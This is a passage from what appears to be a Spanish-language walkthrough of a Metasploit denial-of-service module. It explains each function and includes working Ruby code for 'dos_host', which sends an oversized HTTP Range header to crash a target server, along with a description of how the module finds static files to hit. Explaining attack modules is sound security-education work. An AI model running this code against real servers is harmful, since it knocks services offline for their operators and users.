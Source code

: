 ```ruby
```

6) **dos_host**

Esta función se encarga de enviar una solicitud HTTP para causar el DoS en el servidor objetivo, utiliza la función anterior (**get_file_size**) para obtener el tamaño del archivo y resta 2 al valor para obtener **lower_range** y evitar que el módulo (sploit) se cuelgue. Luego utiliza el método *Rex::Proto::Http::Client.new(ip)* para crear un cliente HTTP y enviar el encabezado modificado con *Range* (usando el método **cli.request_raw**) que exceda al valor límite y generar el DoS enviando el paquente con **cli.send_request()**. Si ocurre una excepción de tiempo de espera o de tubería, se maneja la excepción. Por último, se imprime un mensaje de estado indicando que se ha enviado la solicitud DoS.
```ruby
def dos_host(ip)
  file_size = get_file_size(ip)
  lower_range = file_size - 2

  # In here we have to use Rex because if we dos it, it causes our module to hang too
  uri = normalize_uri(target_uri.path)
  begin
    cli = Rex::Proto::Http::Client.new(ip)
    cli.connect
    req = cli.request_raw(
      'uri' => uri,
      'method' => 'GET',
      'headers' => {
        'Range' => "bytes=#{lower_range}-#{upper_range}"
      }
    )
    cli.send_request(req)
  rescue ::Errno::EPIPE, ::Timeout::Error
    # Same exceptions the HttpClient mixin catches
  end
  print_status("DOS request sent")
end
```

7) **potential_static_files_uris**

Función para determinar posibles identificadores **URIs** de los archivos estáticos en el servidor objetivo. Y tiene la siguiente secuencia:
- Normaliza la URI objetivo con **normalize_uri()**.
- Si la URI no termina con una barra (/), se devuelve una lista con solo esa URI.
- Se crea una lista inicial de URIs con "#{uri}welcome.png".
send_request_raw('uri' => uri, 'method' => 'GET'): Envía una solicitud HTTP raw a la URI.
- Si no hay respuesta, se devuelve la lista de URIs inicial.
Se analiza el cuerpo de la respuesta con Nokogiri::HTML para extraer URIs de archivos estáticos (link, script, style, img).
- Se recorren los elementos del documento y se extraen los atributos href y src.
- Se construyen nuevas URIs combinando el host del sitio con los valores de los atributos.
- Se filtran las URIs para asegurarse de que apunten al mismo host y tengan una extensión de archivo.
- Finalmente, se devuelve la lista de URIs sin duplicados.
